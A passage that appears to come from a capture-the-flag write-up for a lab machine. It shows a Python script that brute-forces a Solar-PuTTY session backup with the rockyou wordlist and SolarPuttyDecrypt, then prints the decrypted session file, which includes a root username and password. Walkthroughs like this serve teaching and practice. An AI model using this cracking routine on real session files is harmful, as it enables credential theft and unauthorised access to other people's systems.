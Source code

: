 ```python
import subprocess
import os
passdata = "rockyou.txt"
session = "sessions-backup.dat"
decrypt = "SolarPuttyDecrypt.exe"

with open(passdata, 'rb') as f:
    for password in f:
        password = password.strip()
        print(f"Trying: {password}")
        s = subprocess.run([decrypt, session, password], capture_output=True, text=True)

        if s.returncode == 0:
            os.system(f".\{decrypt} .\{session} {password}")
            print(password)
            break
```
So we can get the password is ```estrella``` and data in ```session-backup.dat``` after decrypting is

```console
{
  "Sessions": [
    {
      "Id": "066894ee-635c-4578-86d0-d36d4838115b",
      "Ip": "10.10.11.37",
      "Port": 22,
      "ConnectionType": 1,
      "SessionName": "Instant",
      "Authentication": 0,
      "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
      "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
      "LastTimeOpen": "0001-01-01T00:00:00",
      "OpenCounter": 1,
      "SerialLine": null,
      "Speed": 0,
      "Color": "#FF176998",
      "TelnetConnectionWaitSeconds": 1,
      "LoggingEnabled": false,
      "RemoteDirectory": ""
    }
  ],
  "Credentials": [
    {
      "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
      "CredentialsName": "instant-root",
      "Username": "root",
      "Password": "12**24nzC!r0c%q12",
      "PrivateKeyPath": "",
      "Passphrase": "",
      "PrivateKeyContent": null
    }
  ],
  "AuthScript": [],
  "Groups": [],
  "Tunnels": [],
  "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}
```
